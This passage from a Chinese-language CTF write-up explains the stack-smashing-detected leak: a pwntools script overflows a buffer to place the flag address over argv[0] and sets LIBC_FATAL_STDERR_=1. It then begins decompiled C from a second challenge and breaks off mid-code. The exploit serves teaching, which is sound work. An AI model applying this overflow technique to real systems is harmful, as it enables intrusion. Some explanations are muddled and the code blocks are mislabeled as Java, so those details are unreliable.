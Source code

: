 由于题目在远程服务器上，而且LIBC_FATAL_STDERR=0，这个错误提示只会显示在远端，不会返回到我们这端。因此必须设置如下环境变量LIBC_FATAL_STDERR=1，才能实现将标准错误信息通过管道输出到远程shell中。因此，我们还必须设置该参数。那么环境变量在哪？有什么用？在libc_message函数的源代码可以看到LIBC_FATAL_STDERR_使用读取了环境变量libc_secure_getenv。如果它没有被设置、或者为空（\x00或NULL），那么stderr被重定向到_PATH_TTY（这通常是/dev/tty），因此将错误消息不被发送，只在服务器侧可见。位置在高于libc_argv[0]内存单元，且在libc_main[0]地址+8之后。因此exp： 
 
 ```java 
  from pwn import *
env_addr = 0x600d20
flag_addr = 0x400d20

r = process('./read.bin')
r.recvuntil("What's your name? ")
r.sendline("A"*536 + p64(flag_addr) + "A"*8 + p64(env_addr))
r.sendline("LIBC_FATAL_STDERR_=1")
r.recvuntil("*** stack smashing detected ***: ")
log.info("The flag is: %s" % r.recvuntil(" ").strip())


  ``` 
  
本地测试：![Test](https://www.hetianlab.com/specialized/headImg.action?news=ae049e09-2ea3-4143-a7d4-4971a19aec22.png  '栈溢出技巧（下）') 
 
### 题目二 
2018年网鼎杯中guess题目，相对于题目一，flag的位置在栈中而不是bss段，而且ASLR后地址是无法预测的。 
 
 ```java 
  __int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __WAIT_STATUS stat_loc; // [rsp+14h] [rbp-8Ch]
  int v5; // [rsp+1Ch] [rbp-84h]
  __int64 v6; // [rsp+20h] [rbp-80h]
  __int64 v7; // [rsp+28h] [rbp-78h]
  char buf; // [rsp+30h] [rbp-70h]
  char s2; // [rsp+60h] [rbp-40h]
  unsigned __int64 v10; // [rsp+98h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  v7 = 3LL;
  LODWORD(stat_loc.__uptr) = 0;
  v6 = 0LL;
  sub_4009A6();
  HIDWORD(stat_loc.__iptr) = open("./flag.txt", 0, a2);
  if ( HIDWORD(stat_loc.__iptr) == -1 )
  {
    perror("./flag.txt");
    _exit(-1);
  }
  read(SHIDWORD(stat_loc.__iptr), &buf, 0x30uLL);
  close(SHIDWORD(stat_loc.__iptr));
  puts("This is GUESS FLAG CHALLENGE!");
  while ( 1 )
  {
    if ( v6 >= v7 )
    {
      puts("you have no sense... bye :-) ");
      return 0LL;
    }
    v5 = sub_400A11();
    if ( !v5 )
      break;
    ++v6;
    wait((__WAIT_STATUS)&stat_loc);
  }
  puts("Please type your guessing flag");
 ```